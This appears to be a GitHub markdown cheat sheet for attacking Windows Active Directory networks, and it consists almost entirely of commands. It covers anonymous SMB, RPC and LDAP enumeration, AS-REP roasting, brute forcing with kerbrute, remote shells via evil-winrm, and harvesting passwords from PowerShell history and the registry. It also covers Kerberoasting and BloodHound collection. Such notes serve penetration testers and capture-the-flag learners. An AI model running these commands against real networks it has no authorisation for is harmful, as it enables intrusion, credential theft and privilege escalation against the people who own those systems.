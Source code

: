 # Windows 

## Enumeration without credentials
### DNS zone transfer

	host -l domain.name dnsserver
	
	dig axfr domain.name @dnsserver
	
	dnsrecon -d domain.name -t axfr
	
### SMB Anonymous Shares

	smbclient -L //server -N
	
### Anonymous RPC

	rpcclient -U "" -N <host or IP>
	
	enumdomusers
	as well as other ones, help for commands

### LDAP

	ldapsearch -h <host or IP> -p 389 -x -b 'dc=example,dc=com'
	
### Enum4linux

	enum4linux -a <host or IP>
	
### nmap 
        
	nmap -p 139,445 --script smb-vuln* <host or IP>
	
### ASREPRoast

Requires that you harvest a list of users first, from one of the above.

	GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
	
### kerbrute

If all else fails, try to brute force the users you gathered.  You can always try usernames as passwords
https://github.com/TarlogicSecurity/kerbrute

	kerbrute.py -users users.txt -passwords users.txt -domain <domain> -dc-ip <IP>
	
## Enumeration with credentials or post initial shell

### Shell

If WinRM is listening and exposed

	evil-winrm -u <username> -p <password> -i <host or IP>
	
### Get groups and privs

	whoami /all
	
### PowerShell History

	type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt 
	
### Passwords in registry

	reg query HKLM /f password /t REG_SZ /s
	
### Your favorite priv escalation script

	https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASbat
	
### Search for files

	Get-Childitem –Path <Folder> -File -Recurse -ErrorAction SilentlyContinue -Include *<search pattern>*
	
### Kerberos

#### Kerberoasting

	GetUserSPNs.py domain.name/user:password -outputfile kerbroast.txt
	
#### Bloodhound

Use WinRM, meterpreter, etc. to upload SharpHound.ps1

	.\SharpHound.ps1 -CollectionMethod all
	
Download the zip file and import into Bloodhound and go from there.

